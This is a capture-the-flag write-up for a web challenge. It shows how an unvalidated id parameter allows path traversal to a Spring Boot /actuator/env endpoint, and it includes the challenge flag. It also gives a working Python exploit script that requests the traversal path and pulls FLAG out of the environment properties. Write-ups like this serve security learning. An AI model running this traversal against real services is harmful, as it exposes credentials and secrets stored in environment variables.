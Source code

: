 # Description:
Welcome to my card shop!

Author: vicevirus

# Flag
`UMCS{spr1ng_b00t_m4st3rr4c3_786e1ad1}`


# Analysis
Reading through the source code, I noticed that the /pokemon endpoint in index.js forwards the id parameter directly to the backend without any validation
![image](https://github.com/user-attachments/assets/231a5e48-ce73-41d8-9828-668711472830)

This lack of validation allows a path traversal attack by setting id to something like ../actuator/env, which the backend interprets as a request to http://localhost:8080/actuator/env. The /actuator/env endpoint exposes all environment variables, potentially including sensitive data like a flag. In a properly secured application, access to Actuator endpoints would be restricted, but here, the path traversal bypasses any such protections. So now through the pokemon id parameter we can get path traversal bypass to access the actuator/env and get the flag information.

# Solution
To solve we can use this exploit script:
```
import requests
import json

# Target application URL
BASE_URL = "http://116.203.176.73:53870"

# Exploit path traversal to access /actuator/env
print("[*] Attempting to retrieve environment properties via path traversal")
response = requests.get(f"{BASE_URL}/pokemon?id=../actuator/env")

if response.status_code == 200:
    print("[+] Successfully accessed /actuator/env")
    try:
        env_data = response.json()
        # Search for the FLAG environment variable
        flag = None
        for prop in env_data.get("propertySources", []):
            properties = prop.get("properties", {})
            if "FLAG" in properties:
                flag = properties["FLAG"]["value"]
                break
        
        if flag:
            print(f"[+] Flag found: {flag}")
        else:
            print("[-] FLAG not found in environment properties")
            print(f"Response: {response.text[:200]}...")
    except json.JSONDecodeError:
        print("[-] Failed to parse response as JSON")
        print(f"Response: {response.text[:200]}...")
else:
    print(f"[-] Failed to access /actuator/env: {response.status_code}")
    print(f"Response: {response.text[:200]}...")
```

Running the script we can see we successfully acquired the flag:
![image](https://github.com/user-attachments/assets/4e43b89c-31e1-42d5-bf8a-6a56a2626601)
